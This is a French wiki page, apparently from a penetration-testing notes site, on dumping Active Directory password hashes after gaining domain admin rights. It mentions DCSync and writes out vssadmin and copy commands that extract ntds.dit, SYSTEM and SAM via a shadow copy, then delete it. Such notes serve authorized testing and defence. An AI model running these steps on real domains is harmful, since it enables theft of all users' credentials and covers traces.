 ```yaml
---
title: Dump des hashs du domaine
permalink: /Dump_des_hashs_du_domaine/
---
```


# Dump des hashs du domaine

Il existe de nombreuses méthodes pour récupérer les hashs d'un domaine une fois qu'on a les priviléges d'administration sur le domaine.

## DCSync

On peut utiliser les mécanismes de réplication entre DC pour récupérer des hashs.

Voir:
* [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)

## Volume Shadow Copy

Il est possible d'utiliser l'utilitaire VSS pour faire une copie du fichier NTDS.dit et SYSTEM qui sont nécessaires pour récupérer les hashs.

``` text
# Créer le Volume Shadow Copy
vssadmin create shadow /for=C:
vssadmin 1.1 – Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001 Microsoft Corp.

Successfully created shadow copy for ‘c:\’
Shadow Copy ID: {e8eb7931-5056-4f7d-a5d7-05c30da3e1b3}
Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1

# Faire des copies des fichiers nécessaires. Il faut remplacer [X] par le bon entier
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\ntds\ntds.dit .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SYSTEM .
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\windows\system32\config\SAM .

# Supprimer le Volume Shadow Copy
vssadmin delete shadows /for=C: /shadow=e8eb7931-5056-4f7d-a5d7-05c30da3e1b3
```

**Note**: *copy* dans un invite powershell ne fonctionne pas correctement. Mieux vaut tout faire depuis un invite de commande traditionnel.


